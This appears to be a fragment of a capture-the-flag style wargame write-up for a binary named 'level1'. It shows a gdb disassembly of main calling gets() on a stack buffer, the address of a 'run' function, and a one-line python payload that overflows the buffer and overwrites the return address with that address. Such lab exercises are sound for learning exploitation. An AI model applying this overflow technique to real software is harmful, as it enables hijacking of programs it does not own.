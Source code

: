 ## level1

```
Dump of assembler code for function main:
   0x08048480 <+0>:	push   ebp
   0x08048481 <+1>:	mov    ebp,esp
=> 0x08048483 <+3>:	and    esp,0xfffffff0
   0x08048486 <+6>:	sub    esp,0x50
   0x08048489 <+9>:	lea    eax,[esp+0x10]
   0x0804848d <+13>:	mov    DWORD PTR [esp],eax
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave  
   0x08048496 <+22>:	ret 
```

`0x08048444  run`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
python -c "print('\x90' * 60 + 'A' * 16 + '\x44\x84\x04\x08')" | ./level1
